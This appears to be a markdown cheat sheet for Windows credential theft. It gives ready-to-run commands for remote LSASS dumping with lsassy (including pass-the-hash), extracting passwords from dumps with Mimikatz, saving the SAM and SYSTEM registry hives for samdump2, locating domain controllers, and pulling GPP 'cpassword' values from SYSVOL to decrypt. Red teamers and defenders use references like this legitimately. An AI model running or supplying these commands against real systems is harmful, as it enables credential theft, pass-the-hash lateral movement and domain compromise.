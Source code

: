 Download the full Sysinternals Suite here: https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite  
Download individual Sysinternals tools from Sysinternals Live: https://live.sysinternals.com/  

## lsassy
- Remote lsass dumps
- https://github.com/Hackndo/lsassy
- `lsassy -d example.local -u username -p password <IP_address>`
- `lsassy -d example.local -u username -H <NT_Hash> <IP_address>` 
    - Supports pass-the-hash

## Mimikatz
- Run mimikatz
    - `.\mimikatz.exe`
- Choose the minidump sekurlsa module using LSASS.exe output from procdump
    - `sekurlsa::minidump out.dmp`
- Search the output for passwords
    - `sekurlsa::logonPasswords`
- Notes on hashes
    - Windows hashes will usually be in the format LM:NTLM
    - If an LM hash = `aad3b435b51404eeaad3b435b51404ee`, only the NTLM hash is being used
    - If Mimikatz only returns an NTLM hash, the value above can be prepended if LM:NTLM is required in pass-the-hash (PTH) attacks
    - If an LM hash is ever not the value above, the LM hash is in use and can be cracked separately

## SAM Database
- Retrieve the SAM and SYSTEM registry key files
    - `reg save HKLM\SAM C:\temp\sam.reg`
    - `reg save HKLM\SYSTEM C:\temp\system.reg`
- Run samdump2 on linux to read the SAM database
    - `samdump2 system.reg sam.reg`

## Domain Controllers
### Identifying DCs
- `nslookup`
- `> set type=all`
- `> _ldap._tcp.dc._msdcs.example.local`

### (Optional) Mount SYSVOL
- `net use Z: \\DC01\sysvol`

### Search for "cpassword" using findstr over GPP files
- `/s` "Searches the current directory and all subdirectories."
- `/i` "Ignores the case of the characters when searching for the string."
- (View all findstr syntax [here](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/findstr)!)
    - `findstr /s /i cpassword *.xml`
    - `findstr /s /s "cpassword" *.xml`
- For any hits on "cpassword," decode the string with Kali's `gpp-decrypt` tool to reveal the account's plaintext password
    - https://attack.mitre.org/techniques/T1552/006/

